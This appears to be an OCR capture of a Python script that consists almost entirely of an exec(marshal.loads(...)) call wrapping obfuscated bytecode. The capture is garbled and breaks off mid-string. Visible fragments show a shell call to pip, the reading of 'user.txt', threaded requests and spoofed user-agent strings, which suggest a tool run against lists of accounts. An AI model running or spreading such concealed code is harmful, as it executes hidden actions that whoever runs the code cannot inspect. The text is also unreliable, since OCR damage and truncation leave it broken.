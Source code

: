 exec(marshal.loads(b'\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\x00\x00\x00@\x00\x00\x00s\xa4\x03\x00\x00d\x00d\x01l\x00Z\x00d\x00d\x01l\x01Z\x01d\x00d\x01l\x02Z\x02d\x00d\x01l\x03Z\x03d\x00d\x01l\x04Z\x04d\x00d\x01l\x05Z\x05d\x00d\x01l\x06Z\x06d\x00d\x01l\x07Z\x07d\x00d\x01l\x08Z\x08z\x06d\x00d\x01l\tZ\tW\x00n\'\x04\x00e\nyQ\x01\x00\x01\x00\x01\x00e\x03\xa0\x0bd\x02\xa1\x01\x01\x00e\x07\xa0\x0cd\x03\xa1\x01\x01\x00z\x06d\x00d\x01l\tZ\tW\x00n\r\x04\x00e\nyN\x01\x00\x01\x00\x01\x00e\rd\x04\x83\x01\x01\x00Y\x00n\x01w\x00Y\x00n\x01w\x00d\x00d\x05l\x0em\x0fZ\x10\x01\x00d\x00d\x06l\x11m\x12Z\x13\x01\x00d\x00d\x07l\x01m\x14Z\x15\x01\x00d\x00d\x08l\x16m\x17Z\x18\x01\x00d\x00d\tl\x11m\x19Z\x1a\x01\x00d\x00d\nl\x1bm\x1cZ\x1d\x01\x00d\x00d\x0bl\tm\x1eZ\x1f\x01\x00d\x00d\x0cl m!Z"\x01\x00d\x00d\rl#m$Z%\x01\x00z\x0be&d\x0ed\x0f\x83\x02\xa0\'\xa1\x00\xa0(\xa1\x00Z)W\x00n\x07\x01\x00\x01\x00\x01\x00d\x10g\x01Z)Y\x00z\x0be&d\x11d\x0f\x83\x02\xa0\'\xa1\x00\xa0(\xa1\x00Z*W\x00n\x07\x01\x00\x01\x00\x01\x00d\x10g\x01Z*Y\x00g\x00g\x00d\x00d\x00d\x00g\x00g\x00g\x00g\x00g\x00g\x00g\x00g\x00f\r\\\rZ+Z,a-a.a/Z0Z1Z2Z3Z4Z5Z6Z7d\x12Z8d\x12Z9d\x13Z:d\x14Z;d\x15Z<d\x12Z=d\x16Z>d\x17Z?d\x18Z@d\x19ZAd\x18ZBd\x1aZCd\x13ZDd\x16ZEd\x1bZFd\x17ZGd\x19ZHd\x1cZ@d\x1dZ:d\x1cZId\x13Z=d\x16ZJd\x16ZKd\x1cZ?d\x1dZ:d\x1cZId\x13ZDd\x16ZLd\x1bZMd\x19ZNd\x19ZOd\x16Z>d\x1eZPe\x05\xa0QeGeDeHe>eFg\x05\xa1\x01ZRd\x1fd d!d"d#d$d%d&d\'d(d)d*d+\x9c\x0cZSd\x1fd d!d"d#d$d%d&d\'d(d)d*d,\x9c\x0cZTe\x06j\x06\xa0U\xa1\x00jVZWeSeXe\x06j\x06\xa0U\xa1\x00jY\x83\x01\x19\x00ZZe\x06j\x06\xa0U\xa1\x00j[Z\\d-eXeW\x83\x01\x17\x00d.\x17\x00eXeZ\x83\x01\x17\x00d.\x17\x00eXe\\\x83\x01\x17\x00d/\x17\x00Z]d0eXeW\x83\x01\x17\x00d.\x17\x00eXeZ\x83\x01\x17\x00d.\x17\x00eXe\\\x83\x01\x17\x00d/\x17\x00Z^d1Z_d2d3\x84\x00Z`d4d5\x84\x00Zad6d7\x84\x00Zbd8d9\x84\x00Zcd:d;\x84\x00Zdd<d=\x84\x00Zed>d?\x84\x00Zfd@dA\x84\x00ZgdBdC\x84\x00ZhdDdE\x84\x00ZidFd3\x84\x00Z`dGd5\x84\x00ZaejdHk\x02\x90\x01r\xd0e\x03\xa0\x0bdI\xa1\x01\x01\x00z\x07e\x03\xa0kdJ\xa1\x01\x01\x00W\x00n\x04\x01\x00\x01\x00\x01\x00Y\x00z\x07e\x03\xa0kdK\xa1\x01\x01\x00W\x00n\x04\x01\x00\x01\x00\x01\x00Y\x00e\x03\xa0\x0bdL\xa1\x01\x01\x00ee\x83\x00\x01\x00d\x01S\x00d\x01S\x00)M\xe9\x00\x00\x00\x00Nz\x10pip install rich\xe9\x01\x00\x00\x00u6\x00\x00\x00[\xe2\x9c\x93] Internet Eror ,Install Manual (pip install rich))\x01\xda\x05Table)\x01\xda\x07Console)\x01\xda\rBeautifulSoup)\x01\xda\x12ThreadPoolExecutor)\x01\xda\x05Group)\x01\xda\x05Panel)\x01\xda\x05print)\x01\xda\x08Markdown)\x01\xda\x07Columnsz\x08user.txt\xda\x01rzIMozilla/4.1 (compatible; MSIE 5.0; Symbian OS; Nokia 7610;451) Opera